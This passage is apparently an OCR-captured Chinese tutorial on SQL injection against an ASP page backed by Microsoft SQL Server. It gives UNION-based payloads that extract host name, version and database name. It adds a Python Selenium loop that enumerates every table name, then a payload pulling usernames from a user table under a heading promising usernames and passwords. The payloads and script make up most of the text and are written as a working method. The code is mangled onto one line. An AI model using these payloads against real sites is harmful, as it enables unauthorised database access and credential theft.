  host\_name\(\)：連接數據庫服務器的計算機名稱

 @@version：獲取數據庫版本號

 db\_name\(\)：數據庫的庫名稱

 @@servername：當前數據庫計算機的名稱=host\_name\(\)

 \(1\) http://xxxxx/show.asp?code=-1' union all

select 1,null,3,null,null,6,host\_name\(\),@@version,db\_name\(\),10 --

輸出結果如下所示：

 附件1：AYD

 附件2：Microsoft SQL Server....

 附件3：ahykd\_new

其中數據庫的名稱就是ahykd\_new，接下來相同的道理獲取數據庫所有表及列。

SQL Server自帶系統對象表，當前數據庫所有字段。

sysobjects 表名 syscolumns 列名

其中，name表示對象名（表名），id表示表編號，type表示對象類型，其值爲U表示用戶表，S表示系統表，C約束，PK主鍵等。

sysobjects 和 syscolumns 之間以id互相對應，一個表名在sysobjects得到id後可以在syscolumns找到它的列名。

 重點知識：

a.查看所有表名語句 select name from sysobjects where type='U';

b.詢表table1的所有字段名稱 select name from syscolumns where id=object\_id\('table1'\)；

通過子查詢一個升序，一個降序獲取第二個值，同理第三個top 3。 下面通過Python定義一個爬蟲不斷訪問top n，獲取所有的表名，代碼如下：

事先下載：

cmd打開之後

pip install selenium

```text
# coding=utf-8from selenium import webdriver             driver = webdriver.Firefox()    #查询表的名字#(select top 1 name from (select top " + str(i) +" name from sysobjects where xtype='u' order by 1 asc)a order by 1 desc)i = 1while i<=87:    url = "http://...tztgxx.aspx?code=-115' union all select 1,null,1,null,null,6,host_name(),@@servername,(select top 1 name from (select top " + str(i) +" name from sysobjects where xtype='u' order by 1 asc)a order by 1 desc),10 --"    #print url    driver.get(url)    elem = driver.find_element_by_xpath("//form[@name='form1']/div[2]/table/tbody/tr[7]")    print elem.text    i = i + 1
```

7.數據庫返回用戶名和密碼

\(1\) http://xxxxx/show.asp?code=-1' union all

select 1,null,3,null,null,6,7,8,\(select top 1 usr\_name from usr\),10 --

輸出結果如下所示：

 附件1：7
